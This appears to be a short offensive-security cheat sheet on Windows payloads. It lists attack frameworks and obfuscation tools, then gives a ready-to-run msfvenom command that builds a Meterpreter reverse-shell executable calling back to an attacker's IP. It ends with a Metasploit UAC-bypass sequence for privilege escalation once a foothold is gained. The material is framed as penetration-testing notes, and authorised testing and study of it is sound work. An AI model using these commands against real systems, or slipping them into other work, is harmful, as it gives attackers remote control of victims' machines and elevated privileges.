 # Windows Payloads

## Payload Generation

### Tools

| **Resource**                                                 | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| [Reverse Shell Generator](https://www.revshells.com/)        | Quick and Easy                                               |
| [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework) | MSF is an extremely versatile tool for any pentester's toolkit. It  serves as a way to enumerate hosts, generate payloads, utilize public  and custom exploits, and perform post-exploitation actions once on the  host. Think of it as a swiss-army knife. |
| [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) | Many different resources and cheat sheets for payload generation and general methodology. |
| [Mythic C2 Framework](https://github.com/its-a-feature/Mythic) | An alternative option to Metasploit as a  Command and Control Framework and toolbox for unique payload generation. |
| [Nishang](https://github.com/samratashok/nishang)            | Framework collection of Offensive PowerShell implants and  scripts. It includes many utilities that can be useful to any pentester. |
| [Darkarmour](https://github.com/bats3c/darkarmour)           | A tool to generate and utilize obfuscated binaries for use against Windows hosts. |

### [MSVENOM](../msvenom.md) 

## Quick example: Generating a Windows Meterpreter Payload

A common approach is to use `windows/meterpreter/reverse_tcp` payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f exe -o shell.exe
```

This command generates an executable that, when run on the target system,  establishes a reverse connection to the attacker’s machine.

## Bypassing UAC for Privilege Escalation

Once a foothold is gained, attempt to bypass User Account Control (UAC):

```
use exploit/windows/local/bypassuac
set SESSION <SESSION_ID>
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

